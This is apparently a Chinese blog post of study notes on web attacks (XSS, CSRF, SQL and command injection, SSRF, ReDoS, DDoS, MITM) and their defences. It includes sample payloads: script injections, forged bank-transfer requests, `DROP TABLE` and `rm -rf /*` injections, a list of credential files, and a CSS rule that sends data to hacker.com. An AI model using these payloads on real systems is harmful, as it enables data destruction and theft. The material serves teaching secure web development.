





在青训营的学习中学到的一些 Web 开发中的安全问题以及防御方法，将对这些内容进行总结。

## 攻击篇

### XSS（跨站脚本攻击）

#### 原理

开发者盲目相信用户传递的信息而不做处理

当用户输入时，开发者盲目的把用户输入的信息传递给服务器，服务器把用户输入的信息转换成 HTML 标签，然后把转换后的 HTML 标签传递给用户

#### 特点

- 难以感知 没有 UI 呈现
- 窃取用户信息（cookies / token）
- 绘制 UI（例如弹窗），诱使用户填写私密信息

#### 案例

##### 存储型 XSS（Stored XSS）

- 恶意脚本被存储在数据库中
- 访问页面 -> 读数据 = 执行恶意脚本被攻击
- **危害性极大，可对所有访问这个页面的用户进行攻击**

```js
public async submit(ctx) {
    const { content, id } = ctx.request.body; // 没有对content 过滤
    await db.save({
        content,
        id
    });
}
public async render(ctx) {
    const { content } = await db.query({
        id: ctx.query.id
    });
// 没有对content 过滤
ctx.body = `<div>${content}</div>`;
}
```

当有用户恶意提交 `<script>alert(1)</script>` 时，浏览者访问页面会读取到 `<script>alert(1)</script>`，并且会执行 `alert(1)`

```html

<!-- 正常 -->
<div>Hello</div>

<!-- xss攻击 -->
<div><script>alert(1)</script></div>

```

##### 反射型 XSS（Reflected XSS）

- 不涉及数据库
- 从 URL 上攻击

```js
public async render(ctx) {
    const { content } = ctx.query; // 没有对content 过滤
    ctx.body = `<div>${content}</div>`;
}
```

当用户访问 `http://localhost:3000/?content=<script>alert(1)</script>` 时，页面会生成 `<script>alert(1)</script>`，用户访问后执行 `alert(1)`

##### DOM-based XSS

完全不需要服务器参与

恶意攻击的发起 + 执行都在浏览器完成

```js
const content = new URL(location.href).searchParams.get('content'); // 没有对content 过滤
document.querySelector('div').innerHTML = content;
```

当用户访问 `http://localhost:3000/?content=<script>alert(1)</script>` 时，界面读取 URL 参数时会读取到 `<script>alert(1)</script>` 插入到页面中从而执行恶意脚本

##### Mutation-based XSS

- 利用了浏览器渲染 DOM 的特性
- 不同的浏览器会有不同的实现，按浏览器进行攻击

```html

<!-- XSS检查器: 无问题 -->
<noscript>
    <p title="</noscript>">

<!-- 渲染后 -->

<div>
<noscript>
    <p title="</noscript>
    
    "">"
</div>
```

### Cross-site request forgery（CSRF）

- 在用户不知情的前提下
- 利用用户权限（Cookies）
- 构造指定 HTTP 请求，窃取或修改用户敏感信息

#### 示例



```html
<!-- 用户点击 -->
<!-- 点击后向黑客转账100元 -->
<a href="http://bank.com/transfer?to=hacker&amount=100"> 点我抽奖 </a>

<!-- 用户访问后执行 -->
<!-- 加载图片时向黑客转账100元 -->


<!-- 表单 -->
<!-- 表单隐藏用户无法发现 -->
<form action="http://bank.com/transfer" method="POST">
    <input type="hidden" name="to" value="hacker">
    <input type="hidden" name="amount" value="100">
</form>
```

### 注入

#### SQL 注入



```js
public async renderForm(ctx) {
    const { username, form_id } = ctx.query;
    const sql = `SELECT * FROM users WHERE username='${username}'
    AND form_id='${form_id}'`;
    const users = await db.query(sql);
    ctx.body = users;
}
```

当用户输入用户名为 `any'; DROP TABLE users; --` 时，拼出来的语句是 `SELECT * FROM users WHERE username='any'; DROP TABLE users; --' AND form_id='…'`，单引号被提前闭合，后面的 `DROP TABLE` 被当成第二条语句执行（`--` 注释掉了剩下的部分），从而造成删库

#### 其它

- CLI
- OS command
- Server-side Request Forgery（SSRF），服务端伪造请求（严格意义上非注入，但原理类似）

##### 执行

```js
// 用于转换视频
public async convertVideo(ctx) {
    const { video, options } = ctx.query;
    exec(`convert-cli ${video} ${options}`);
    ctx.body = 'ok';
}
```

当用户请求参数为 `http://localhost:3000/?video=video.mp4&options=&& rm -rf /*` 时，会执行 `convert-cli video.mp4 && rm -rf /*` 从而造成服务器上的文件被删除

##### 读取修改

重要文件被暴露

- /etc/passwd
- /etc/shadow
- ~/.ssh
- /etc/apache2/httpd.conf
- /etc/nginx/nginx.conf
- 其它私密文件...

假如黑客可以修改 nginx.conf 文件，添加一个反向代理

```nginx
location / {
    proxy_pass http://localhost:3000;
}
```

黑客将我们网站的访问流量转发到其竞争对手，从而造成竞争对手服务器流量过大而宕机

##### SSRF

```js
public async webhook(ctx) {
    // callback 可能是内网 URL
    // e.g http://secret.com/get_employ_payrolls
    ctx.body = await fetch(ctx.query.callback);
}
```

### DoS

#### 原理

通过构造某种特殊的请求，导致服务器资源被显著消耗，来不及响应更多请求，导致请求积压，进而造成雪崩效应

#### 案例

知识补充

```js
const greedyRegExp = /a+/  // 有多少匹配多少
const nonGreedyRegExp = /a+?/  // 有一个就行
const str = "aaaaaaaaaaaa";
console.log(str.match(greedyRegExp)[0])
console.log(str.match(nonGreedyRegExp)[0])
```

有以下正则表达式 `^((ab)*)+$`

执行过程中存在的问题



大量的回溯会造成响应时间大大加长，接口吞吐量也会随之下降

需要注意的地方

- 耗时的同步操作
- 数据库写入
- SQL join
- 文件备份
- 循环执行逻辑

### DDoS

#### 原理

短时间内发送大量重复请求，造成服务器处理堵塞请求堆积，导致服务器雪崩从而无法响应新请求

特点：量大、攻击手段简单、破坏性严重

#### 案例

攻击者修改 TCP 发送大量 SYN 包，但不响应服务器 ACK + SYN 包，导致服务器无法释放连接从而堵塞



### 中间人攻击

#### 原理

环境

- 明文传输
- 信息篡改不可知
- 对方身份未验证



在这个图里，中间人窃取或篡改客户端与服务端交互的信息，从而导致信息泄露

## 防御篇

### XSS

守则

- 永不信任外部传入数据
- 不要将用户提交内容直接转换为 DOM

工具

- 主流框架默认防御 XSS
- Google-closure-library
- DOMPurify

#### 无法避免动态生成 DOM

当存在需求无法避免动态生成 DOM 时，注意以下几点

##### DOM

对字符进行转义

##### SVG

允许上传图片时也要注意对 SVG 进行扫描

##### 自定义跳转链接

当允许用户自定义跳转链接时，需要对跳转链接进行过滤防范，例如 `<a href="javascript:alert(0)">` 存在危险

##### 自定义样式

当有表单 radio 被点击时触发 get 请求，暴露收入情况

```css
input[type=radio].income-ge10k {
    background: url("http://hacker.com/?income=gt10k");
}
```

### CSRF

#### 同源策略

当满足以下条件时，浏览器认为同源，否则跨域

- 协议相同
- 域名相同
- 端口相同

如果发生跨域，看服务器是否支持 CORS

#### Content Security Policy（CSP）

内容安全策略定义哪些源或域名是安全的，来自安全源的脚本可以执行，否则报错

对 eval + inline script 说不

##### 服务器端设置

```text
Content-Security-Policy: script-src 'self' 同源允许
Content-Security-Policy: script-src 'self' https://domain.com 在同源之外允许该域脚本执行
```

##### 前端设置

```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://domain.com">
```

#### 防御

##### 检查请求头部

当伪造请求为异常来源时，就限制请求

在同源请求中，GET 和 HEAD 不发送 Origin 头部，POST 发送 Origin 头部

不论什么请求都带有 Referer 头部

##### token

思路：先有页面，后有请求

- 在页面中生成一个 token，每次请求都带上这个 token
- 在请求中检查 token，如果不一致，则拒绝请求

##### iframe 攻击

通过 iframe 构造页面，在其放欲攻击的页面，然后放一个按钮，当点击按钮时会穿透到攻击页面

```js
export default function App() {
    const onContentClick = () => console.log('content click');
    const onButtonClick = () => console.log('button click');
    return (
        <div>
            <button onClick={onButtonClick}>按钮</button>
            <div class="oncontent" onClick={onContentClick}>
                content
            </div>
        </div>
    );
    )
}
```

当点击时日志会出现 `button click`

防御手段：

通过设置 X-Frame-Options: DENY/SAMEORIGIN，阻止 iframe 构造页面

DENY 为禁止，SAMEORIGIN 为同源才可构造

##### 职责分开

GET !== GET + POST

不应当既响应 GET，又响应 POST，很容易造成用户信息泄露甚至篡改，应当分为两个处理

错误示范

```js
public async getAndUpdate(ctx) {
    const { update, id } = ctx.query;
    if (update){
        await this.update(update);
    }
    ctx.body = await this.get(id);
}
```

##### Samesite Cookie

限制 cookie

我的页面 cookie 只能在我的页面中使用

其它页面 cookie 都不能带上我的 cookie

从根源上解决 CSRF

限制的是

1. Cookie domain
2. 页面域名

服务器端设置 `Set-Cookie: SameSite=Strict`（或 `Lax`）。注意 `SameSite=None` 的意思是跨站请求也带上 cookie，恰好不能防御 CSRF；只有确实需要跨站发送 cookie 时才用它，而且必须同时加 `Secure`

##### 防御 CSRF 的正确姿势

通过中间件来过滤

### 注入

#### SQL 注入

使用 prepared statement

预编译语句

```sql
PREPARE q FROM 'SELECT * FROM users WHERE gender = ?';
SET @gender = 'female';
EXECUTE q USING @gender;
DEALLOCATE PREPARE q;
```

#### exec

最小原则：不要给 sudo 或者 root

建立允许名单 + 过滤，例如禁止 rm

对 URL 类型参数进行协议、域名、IP 等限制，例如禁止访问内网

### DoS

#### 正则

完善代码 review 工作，避免使用贪婪匹配，特别是在接口处理上

代码扫描 + 正则性能测试

不要使用用户提供的正则

### DDoS

1. 流量治理
   - 负载均衡
   - API 网关
   - CDN
2. 快速自动扩容
3. 非核心业务降级

在负载均衡及 API 网关处可以进行流量识别过滤掉异常请求

通过 CDN、快速自动扩容、非核心业务降级进行抗量，提高服务器承载能力

### 中间人

使用 HTTPS 加密传输内容

HTTPS 特性：

- 可靠性：加密
- 完整性：MAC 验证
- 不可抵赖性：数字签名 确保双方身份

HTTPS 握手过程略

**完整性**

服务器在内容中加入 hash 信息，客户端收到后重新计算并校验 hash

**数字签名**

私钥签名，公钥验证

**不可抵赖性**

存在一个 CA（证书机构），服务方会将一些元信息以及公钥合并成一个信息，使用 CA 提供的私钥对证书进行签名，形成服务器端保存的证书，这个证书传递给浏览器，浏览器利用 CA 公钥进行校验，如果校验成功，则证书有效

浏览器会大量内置各个 CA 公钥

也要注意防止证书签名算法不够健壮时仍有证书风险

### SRI

可以防范 CDN 被 hack

```html
<script src="https://demo.com/script.js" integrity="sha384-{some-hash-value}"></script>


<!-- 伪代码 -->
<script lang="javascript">
    const remoteHash = hash(content);
    if (tagHash !== remoteHash) {
        throw new Error('Hash mismatch');
    }
</script>
```

### Other

浏览器：

Feature-Policy/Permission-Policy

一个源（页面），可以使用哪些功能，例如麦克风、摄像头等

- camera
- microphone
- geolocation
- autoplay
- ...

当使用 iframe 时，可以使用 `<iframe allow="...">` 来设置

## 尾声

### 总结

- 安全无小事
- 使用的依赖也可能成为被攻破的一环
- 保持学习的心态

### 推荐阅读

[Web Application Security: Exploitation and Countermeasures for Modern Web Applications](https://www.amazon.com/Web-Application-Security-Exploitation-Countermeasures/dp/1492053112/ref=sr_1_3?crid=3KZBER4W7Z6JF&dchild=1&keywords=web+security&qid=1627822659&sprefix=web+secu%2Caps%2C360&sr=8-3)

[SameSite 那些事](https://imnerd.org/samesite.html)

[关于 Web 安全突然想到的 #32](https://github.com/AngusFu/diary/issues/32)

[什么是 DDoS 攻击？](https://aws.amazon.com/cn/shield/ddos-attack-protection/)
